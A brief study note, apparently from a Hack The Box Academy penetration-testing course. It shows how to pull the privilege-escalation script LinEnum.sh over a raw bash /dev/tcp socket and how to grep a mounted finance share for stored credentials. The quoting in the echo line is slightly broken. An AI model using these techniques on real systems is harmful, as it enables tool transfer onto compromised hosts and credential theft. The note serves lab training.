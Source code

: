 #######
console
#######
2024-11-28 22:20

Status:

Tags: 


Example 1: You can use console to download a file

.. code-block:: console

   exec 3<>/dev/tcp/10.10.10.32/80


Get the file you need

.. code-block:: console

   echo -e "GET /LinEnum.sh HTTP/1.1\n\n\">&3

Print the file

.. code-block:: console

   cat <&3

Example 2: Finding files with a certain string

.. code-block:: console

   grep -rn /mnt/Finance/ -ie cred

**************
References
**************
https://academy.hackthebox.com/module/116/section/1140
